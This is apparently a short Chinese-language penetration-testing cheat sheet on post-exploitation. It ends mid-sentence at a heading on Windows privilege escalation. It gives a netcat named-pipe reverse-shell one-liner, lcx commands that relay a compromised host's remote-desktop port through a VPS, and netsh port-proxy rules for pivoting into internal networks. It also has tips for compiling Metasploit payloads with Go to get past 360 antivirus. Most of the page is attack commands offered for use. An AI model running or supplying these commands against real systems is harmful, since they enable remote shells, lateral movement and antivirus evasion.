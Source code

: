 ### nc

nc 简单使用

> https://tom0li.github.io/2017/05/06/nc/

linux root 权限

> mknod /tmp/backpipe p  
>
> /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe

权限不够用 

> ```
> mkfifo /tmp/backpipe
> ```

以上用 nc 监听即可

### lcx

被攻击机 

> lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389

vps    

> lcx.exe –listen 8888 5555

在本机 mstsc 登陆 139.1.2.3:5555 或在 vps 连接 127.0.0.1:5555

### netsh win自带(只支持 tcp )360 拦

将本地80转到192.168.1.101:8080端口

> netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.1.101 connectport=8080

通过连接1.1.1.101的8082端口，相当连接1.1.1.101可访问的内网192.168.2.102的3389端口

> netsh interface portproxy add v4tov4 listenaddress=1.1.1.101 listenport=8082 connectaddress=192.168.2.102 connectport=3389

### go+msf & py+msf bypass360

msf 编码生成后，用:

> go build -ldflags="-H windowsgui -s -w" 

即可，详细参考以下 link

> http://lu4n.com/metasploit-payload-bypass-av-note/
>
> http://hacktech.cn/2017/04/20/msf-AntiVirus.html

### 提权

win 提权辅助工具，原理主要通过 systeminfo 补丁信息比对漏洞库, 工具链接 
